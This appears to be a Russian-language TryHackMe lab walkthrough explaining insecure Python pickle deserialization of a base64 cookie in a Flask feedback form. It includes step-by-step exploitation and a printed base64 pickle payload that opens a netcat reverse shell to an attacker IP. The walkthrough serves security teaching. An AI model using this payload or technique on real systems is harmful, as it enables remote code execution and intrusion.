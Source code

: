 ### . Что делает эту форму уязвимой?

Если пользователь вводит свой отзыв, данные будут закодированы и отправлены в приложение Flask (предположительно, 
для хранения в базе данных, например). Однако приложение предполагает, что любые закодированные данные заслуживают 
доверия. Но мы хакеры. Вы можете доверять нам только в той степени, в которой вы можете нас забросить (а это 
практически невозможно в сети)   

Хотя объяснение программирования немного выходит за рамки этой темы, важно понимать, что происходит в приведенном 
ниже фрагменте: 

Когда вы посещаете URL-адрес "Exchange your vim", файл cookie кодируется и сохраняется в вашем браузере — идеально 
для того, чтобы мы могли его изменить! После того, как вы посещаете форму обратной связи, значение этого файла 
cookie декодируется, а затем десериализуется. Ой-ой. В приведенном ниже фрагменте мы можем увидеть, как файл cookie 
извлекается и затем десериализуется через pickle.loads 

Эта уязвимость использует Python Pickle, который я прикрепил в качестве материала для чтения в конце комнаты. По 
сути, у нас есть полная свобода действий, чтобы выполнить все, что мы захотим, например, обратную оболочку. 


### Эксплойт

Теперь я не собираюсь оставлять вас здесь в одиночестве. Сначала нам нужно настроить прослушиватель netcat на нашем 
Kali. Если вы подписчик, вы можете управлять своей собственной  машиной TryHackMe Kali в браузере. 

Поскольку десериализуемый код из формата base64, мы не можем просто так породить обратную оболочку. Мы должны 
закодировать наши собственные команды в base64, чтобы вредоносный код был выполнен. Я подробно опишу шаги ниже с 
предоставленным материалом для этого.  

После этого  скопируйте и вставьте исходный код из этого файла python (pickelme.py)  в свой kali и измените исходный 
код, заменив ваш "YOUR_TRYHACKME_VPN_IP" на ваш TryHackMe VPN IP.  Его можно получить на странице доступа.

1. Создайте файл Python для вставки. Для этих примеров я использовал «rce.py»:
2. Вставьте код с сайта GitHub, заменив YOUR_TRYHACKME_VPN_IP на ваш TryHackMe VPN IP со страницы доступа.
3. Выполните "rce.py" через python3 rce.py
4. Обратите внимание на вывод команды, он будет выглядеть примерно так:
5. Скопируйте и вставьте все,  что находится между двумя речевыми знаками  ('DATA'). В моем случае я скопирую и вставлю:
gASVcgAAAAAAAACMBXBvc2l4lIwGc3lzdGVtlJOUjFdybSAvdG1wL2Y7IG1rZmlmbyAvdG1wL2Y7IGNhdCAvdG1wL2YgfCAvYmluL3NoIC1pIDI
   +JjEgfCBuZXRjYXQgMTAuMTEuMy4yIDQ0NDQgPiAvdG1wL2aUhZRSlC4=    Ваш текст может выглядеть немного иначе, просто 
   убедитесь, что вы скопировали все, что находится между двумя речевыми знаками. ''  
6. Вставьте это в cookie-файл «encodedPayload» в вашем браузере:
7. Убедитесь, что наш прослушиватель netcat все еще работает:
8. Обновите страницу. Она зависнет, обратитесь к вашему прослушивателю netcat:
